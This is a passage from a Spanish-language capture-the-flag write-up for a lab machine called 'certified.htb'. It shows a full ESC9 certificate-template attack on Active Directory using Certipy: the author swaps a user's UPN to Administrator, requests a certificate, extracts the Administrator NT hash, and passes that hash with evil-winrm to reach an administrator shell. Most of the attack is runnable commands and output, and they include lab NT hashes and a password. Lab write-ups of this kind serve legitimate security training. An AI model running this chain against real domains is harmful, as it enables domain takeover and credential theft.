Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'certified-DC01-CA' via CSRA
[!] Got error while trying to get CA configuration for 'certified-DC01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'certified-DC01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'certified-DC01-CA'
[*] Saved BloodHound data to '20241104213802_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
[*] Saved text output to '20241104213802_Certipy.txt'
[*] Saved JSON output to '20241104213802_Certipy.json'
```

Ahora si examinamos el documento de texto vemos que la plantilla `CertifiedAuthentication` es vulnerable a ESC9.


Recomiendo leer [esta teoría](https://www.thehacker.recipes/ad/movement/adcs/certificate-templates#no-security-extension-esc9) sobre la ESC9 antes de continuar.

Una vez entendido como funciona esta escalada, vamos paso por paso.

En nuestro caso, tenemos que primero cambiar el UPN del usuario `ca_operator` a Administrador.
```console
➜  content certipy account update -username management_svc@certified.htb -hashes a091c1832bcdd4677c28b5a6a1295584  -user ca_operator -upn Administrator
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_operator':
    userPrincipalName                   : Administrator
[*] Successfully updated 'ca_operator'
```

Ahora, podemos abusar de la plantilla vulnerable para conseguir el certificado del administrador.
```console
➜  content certipy req -username ca_operator@certified.htb -p "Pointed123@" -ca certified-DC01-CA -template CertifiedAuthentication
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 4
[*] Got certificate with UPN 'Administrator'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

Ahora cambiamos el UPN de nuevo al que estaba antes.
```console
➜  content certipy account update -username management_svc@certified.htb -hashes a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn ca_operator@certified.htb
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_operator':
    userPrincipalName                   : ca_operator@certified.htb
[*] Successfully updated 'ca_operator'
```

Y ahora podemos con `certipy` solicitar un ticket TGT y conseguir el hash NT del usuario `Administrator`

```console
➜  content certipy auth -pfx administrator.pfx -domain certified.htb
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@certified.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@certified.htb': aad3b435b51404eeaad3b435b51404ee:0d5b49608bbce1751f708748f67e2d34
```

Y ya podemos hacer PTH con `evil-winrm` para conseguir una consola como `Administrator`
```console
➜  content evil-winrm -i 10.129.186.36 -u Administrator -H 0d5b49608bbce1751f708748f67e2d34

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
certified\administrator
```

Podemos leer la flag de `root`
```console
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
e4e28b882ede57b...
```

¡Y ya estaría!

Happy Hacking! 🚀